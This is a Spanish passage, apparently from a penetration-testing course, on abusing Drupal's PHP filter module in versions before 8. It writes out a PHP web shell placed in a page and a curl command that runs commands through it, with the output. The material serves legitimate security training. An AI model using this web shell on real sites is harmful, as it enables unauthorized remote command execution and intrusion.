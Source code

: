 Ahora que hemos confirmado que estamos enfrentando a Drupal y hemos identificado la versión, veamos qué configuraciones incorrectas y vulnerabilidades podemos descubrir para intentar obtener acceso a la red interna.

A diferencia de algunos CMS, obtener una shell en un host de Drupal a través de la consola de administración no es tan fácil como simplemente editar un archivo PHP encontrado dentro de un tema o subir un script PHP malicioso.

---

## Leveraging the PHP Filter Module

En versiones anteriores de Drupal (antes de la versión 8), era posible iniciar sesión como administrador y habilitar el módulo `PHP filter`, que "Permite que el código/snippets PHP embebidos sean evaluados."

`http://drupal-qa.inlanefreight.local/#overlay=admin/modules`

![](https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png)

Desde aquí, podríamos marcar la casilla junto al módulo y desplazarnos hacia abajo hasta `Save configuration`. Luego, podríamos ir a Content --> Add content y crear una `Basic page`.

`http://drupal-qa.inlanefreight.local/#overlay=node/add`

![](https://academy.hackthebox.com/storage/modules/113/basic_page.png)

Ahora podemos crear una página con un snippet PHP malicioso como el siguiente. Nombramos el parámetro con un hash md5 en lugar del común `cmd` para practicar el no dejar potencialmente una puerta abierta a un atacante durante nuestra evaluación. Si usamos el estándar `system($_GET['cmd']);`, nos exponemos a un atacante de "drive-by" que podría encontrar nuestra web shell. Aunque es poco probable, ¡mejor prevenir que lamentar!

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

`http://drupal-qa.inlanefreight.local/#overlay=node/add/page`

![](https://academy.hackthebox.com/storage/modules/113/basic_page_shell_7v2.png)

También queremos asegurarnos de configurar el desplegable `Text format` en `PHP code`. Después de hacer clic en guardar, seremos redirigidos a la nueva página, en este ejemplo `http://drupal-qa.inlanefreight.local/node/3`. Una vez guardado, podemos solicitar ejecutar comandos en el navegador añadiendo `?dcfdd5e021a869fcc6dfaef8bf31377e=id` al final de la URL para ejecutar el comando `id` o usar `cURL` en la línea de comandos. Desde aquí, podríamos usar una línea de comando bash para obtener acceso de shell reverso.

```bash
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
